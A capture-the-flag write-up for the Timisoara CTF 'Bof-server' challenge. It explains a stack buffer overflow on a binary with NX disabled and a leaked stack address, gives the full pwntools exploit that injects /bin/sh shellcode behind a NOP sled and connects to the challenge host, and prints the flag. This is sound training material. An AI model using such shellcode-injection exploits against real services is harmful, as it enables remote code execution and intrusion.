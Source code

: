 ```yaml
---
title: "Bof-server [100]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
--- 
```


**Category:** Binary Exploitation 

> Today kids we learn how to write exploits for super-secure software: bof-server!  
nc 89.38.208.144 11112  
(non-standard flag format)

## Write-up
This is a standard buffer overflow shellcoding challenge. 

As usual, running `checksec` on the binary gives:
```   
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x400000)    
   RWX:      Has RWX segments
```

`checksec` shows the `NX Bit` as disabled, which means shellcode can be executed. After running the binary, we see the following output:  

`Hello! Here is the stack address: 7fffffffdc60, enter your name please:`  

The binary prints out the starting address of the stack, and asks for input. We can use `pwntools` to generate the shellcode to execute shell. The payload contains the following:

1. Shellcode
2. Padding (Overflow the stack until RIP)    
3. Stack address (To jump to our shellcode and execute shell)

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./bof-server",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "89.38.208.144",
    "PORT" : 11112,
}

def exploit(p):
    padding = "\x90"*264
    shellcode = asm(shellcraft.sh())

    ru("stack address: " )
    address = int("0x" + r(12), 16)

    payload = "\x90"*50 
    payload += shellcode
    payload += "\x90"*(264-50-len(shellcode))
    payload += p64(address)
    sla("please: ", payload)
    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{oooverfl0w}wwwWWW